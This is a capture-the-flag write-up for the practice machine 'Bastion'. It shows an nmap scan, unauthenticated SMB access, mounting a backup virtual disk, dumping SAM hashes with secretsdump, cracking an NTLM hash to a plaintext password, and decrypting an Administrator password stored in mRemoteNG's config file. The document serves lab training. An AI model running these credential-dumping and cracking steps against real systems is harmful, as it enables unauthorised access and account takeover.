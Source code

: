 ## Nmap scan:
```
# Nmap 7.92 scan initiated Tue Jan  3 20:45:06 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.134
Increasing send delay for 10.10.10.134 from 0 to 5 due to 517 out of 1723 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.10.134
Host is up, received user-set (0.075s latency).
Scanned at 2023-01-03 20:45:07 EST for 2639s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-04T02:28:58
|_  start_date: 2023-01-04T01:43:05
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15404/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55848/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-04T03:28:59+01:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  3 21:29:06 2023 -- 1 IP address (1 host up) scanned in 2639.24 seconds
```

139/445 - The main ports I was going to investigate, no web server so the answer is most likely there.
22 - SSH port for a windows box is unique, might be interesting later on.

I tried to log into the SMB without a password, and it worked:
```
smbclient \\\\10.10.10.134\\Backups\
```
At first I was trying to recursively download all of the files there, but it was very slow and didn't seem to work, and then I stumbled upon the ```note.txt``` file and read it:

![note_file](images/bastion/Pasted_image_20230104205316.png)

So I decided to mount the SMB share on my kali File System using this command:
```
mount -t cifs //10.10.10.134/Backups /mnt/smb
```
I searched for anything interesting there, and I found two .vhd files,
.vhd (virtual hard disk) file is: a disk image file format for storing the entire contents of a computer's hard drive. 
The disk image, sometimes called a virtual machine (VM), replicates an existing hard drive, including all data and structural elements.

![vhd_files](images/bastion/Pasted_image_20230104210016.png)

To list the files I used this command:
```
7z -l
```
And I could see that the first file contained only BOOT files, and the second one appeared to be the interesting one, so I used guestmount tool to view the files inside:
```
guestmount --add *filename* --inspector --ro -v /mnt/vhd
```

![inside_vhd](images/bastion/Pasted_image_20230104210329.png)
After a while of enumeration, I couldn't find any flags or other files that could be useful so I decided to copy the SAM and SYTEM files and dump them later on.
to do that I did this:
```
cd /Windows/Sytem32/config/
cp SYSTEM SAM .
secretsdump.py -sam SAM -system SYSTEM local
```
And this is what I got:
```
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
I used hashcat to crack L4mpje NTLM hash:
```
hashcat -m 1000 L4mpje_hash /usr/share/wordlists/rockyou.txt
``` 
Result:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

Since WinRM port (5985) Was open, I tried to connect via evil-winrm, and when it didn't work I tried using the SSH port and it worked.


# Privilege Escalation

I used winPEAS for enumeration at first, but couldn't find anything that was useful.
So I started to enumerate manually, and I found mRemoteNG directory on ```C:\Program Files (x86)```
I have never seen seen it before, so I searched and read about it, and this is what I found:

**mRemoteNG:**
mRemoteNG (mremote) is an open source project (https://github.com/rmcardle/mRemoteNG) that provides a full-featured, multi-tab remote connections manager. It  supports RDP, SSH, Telnet, VNC, ICA, HTTP/S, rlogin, and raw socket connections. Additionally, It also provides the means to save connection settings such as hostnames, IP addresses, protocol, port, **and user credentials, in a password protected and encrypted connections file.**

The password can be found at ```%appdata%/mRemoteNG``` in a file named confCons.xml. This password can sometimes be the administrator password

![confcons_file](images/bastion/Pasted_image_20230104222607.png)

When I read the file I found this:
```                                                                                                                                           
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                             
```
It looks like the Administrator password, to decrypt it I used a tool called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
![decrypted_password](images/bastion/Pasted_image_20230104223021.png)

I connected via SSH, and it worked:

![privesc](images/bastion/Pasted_image_20230104223144.png)

